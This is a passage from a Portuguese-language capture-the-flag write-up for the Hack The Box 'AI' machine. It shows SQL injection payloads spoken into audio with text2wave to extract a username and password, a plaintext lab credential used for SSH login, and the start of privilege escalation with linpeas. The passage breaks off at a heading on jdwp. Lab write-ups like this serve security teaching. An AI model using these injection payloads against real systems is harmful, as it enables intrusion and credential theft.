 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ai/A_f12.png)

Show!!! Conseguimos executar, agora vamos ver se encontramos credenciais de acesso ou qualquer coisa que nos seja útil

`echo "open single quote, join, select, username from users comment database" | text2wave -o test.wav`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ai/A_f13.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ai/A_f14.png)

Username encontrado `alexa`, agora vamos ver se encontramos alguma senha

`echo "open single quote, join, select, password from users comment database" | text2wave -o test.wav`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ai/A_f15.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ai/A_f16.png)

Senha encontrada `H,Sq9t6}a<)?q93_`

Bom, agora que temos uma credencial de acesso à máquina, vamos realizar login SSH nela, uma vez que temos a porta 22 aberta

## Acesso SSH

alexa:H,Sq9t6}a<)?q93_

Pronto, conseguimos acessar a máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ai/A_ss.png)

# Escalação de Privilégio - alexa --> Root

Agora vamos iniciar a escalação de privilégio nessa máquina

Primeiro passo, devemos rodar o `linpeas`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ai/A_lin.png)

> https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ai/A_lin1.png)

Rodamos ele na máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-ai/A_lin2.png)

## jdwp como root - linpeas
